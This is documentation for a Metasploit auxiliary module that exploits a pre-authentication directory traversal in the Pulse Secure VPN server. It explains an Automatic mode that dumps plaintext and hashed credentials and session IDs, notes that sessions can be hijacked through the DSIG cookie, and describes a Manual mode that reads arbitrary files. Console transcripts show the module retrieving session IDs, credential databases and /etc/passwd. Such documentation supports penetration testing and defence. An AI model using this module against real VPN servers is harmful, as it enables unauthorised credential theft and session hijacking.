 ## Introduction

This module exploits a pre-auth directory traversal in the Pulse Secure
VPN server to dump an arbitrary file. Dumped files are stored in loot.

If the `Automatic` action is set, plaintext and hashed credentials, as
well as session IDs, will be dumped. Valid sessions can be hijacked by
setting the `DSIG` browser cookie to a valid session ID.

For the `Manual` action, please specify a file to dump via the `FILE`
option. `/etc/passwd` will be dumped by default. If the `PRINT` option is
set, file contents will be printed to the screen, with any unprintable
characters replaced by a period.

Please see related module exploit/linux/http/pulse_secure_cmd_exec for
a post-auth exploit that can leverage the results from this module.

## Actions

```
Name       Description
----       -----------
Automatic  Dump creds and sessions
Manual     Dump an arbitrary file (FILE option)
```

## Options

**FILE**

Set this to the file you want to dump. The default is `/etc/passwd`.
Valid only in manual mode.

**PRINT**

Whether to print file contents to the screen. Valid only in manual mode.

## Usage

Dumping creds and sessions in automatic mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in automatic mode
[*] Dumping /data/runtime/mtmp/lmdb/dataa/data.mdb
[+] /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[*] Dumping /data/runtime/mtmp/lmdb/randomVal/data.mdb
[*] Parsing session IDs...
[+] Session ID found: df502e6052d9002d8f02160af8bfd055
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: acbef5625
[+] Session ID found: c145e683a
[+] Session ID found: fc6c097dd
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: c145e683a17cfacb72a47eb8b2515c14
[+] Session ID found: a7661751393e16fa253e97bd02dc2a4f
[+] Session ID found: 7e78ab276afea3f00dfa41892c437156c699eff8
[+] /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[*] Dumping /data/runtime/mtmp/system
[+] /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) > loot

Loot
====

host         service  type                                        name                                        content                   info                   path
----         -------  ----                                        ----                                        -------                   ----                   ----
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/dataa/data.mdb      application/octet-stream  Plaintext credentials  /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/randomVal/data.mdb  application/octet-stream  Session IDs            /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/system                   application/octet-stream  Hashed credentials     /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin

msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```

Dumping default `/etc/passwd` in manual mode:

```
msf5 auxiliary(gather/pulse_secure_file_disclosure) > set action Manual
action => Manual
msf5 auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in manual mode
[*] Dumping /etc/passwd
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
postgres:x:102:102:PostgreSQL User:/:

[+] /Users/wvu/.msf4/loot/20191029222949_default_[redacted]_PulseSecureVPN_073170.bin
[*] Auxiliary module execution completed
msf5 auxiliary(gather/pulse_secure_file_disclosure) >
```
